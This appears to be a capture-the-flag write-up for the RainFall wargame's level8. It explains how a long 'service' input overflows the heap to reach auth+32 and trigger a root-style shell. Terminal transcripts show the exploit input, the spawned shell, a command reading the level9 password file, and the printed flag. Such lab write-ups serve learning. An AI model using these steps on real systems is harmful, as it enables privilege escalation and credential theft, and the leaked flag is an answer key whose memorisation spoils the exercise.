The real difficulty here was to reconstruct the source code, which is a bit more complex than in the previous exercises. 

The program contains an infinite loop in a main() function. First, the program displays the addresses of two global variables, auth and service, and then records the user's input in a buffer with fgets(). The following then differs depending on what is read from stdin. I won't detail the program here, because it is quite clear in the [source.c file](source.c).

When the program is running, `(nil), (nil)` is displayed, which means that the variables auth and service are both null pointers. By filling in auth and service, we obtain the addresses of our two variables:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth a
0x804a008, (nil) 
service a
0x804a008, 0x804a018
```

What we are interested in is the condition according to which the call to `system("/bin/sh")` is made: auth + 32 must not be equal to 0. First of all, note that only 4 bytes are allocated for auth. No matter how hard we try with auth, there is no way we can write something at auth + 32. But we can see that the service address is 16 bytes further in the memory than the auth address (0x804a018 - 0x804a008). Plus, sercice is allocated with strdup(), so it will have the size of our input. We just have to fill in an input long enough for service, in order to write in the memory at auth + 32:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth ok
0x804a008, (nil) 
service aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
We can now reach to the next level with the command `su level9` and fill in the flag found as a password.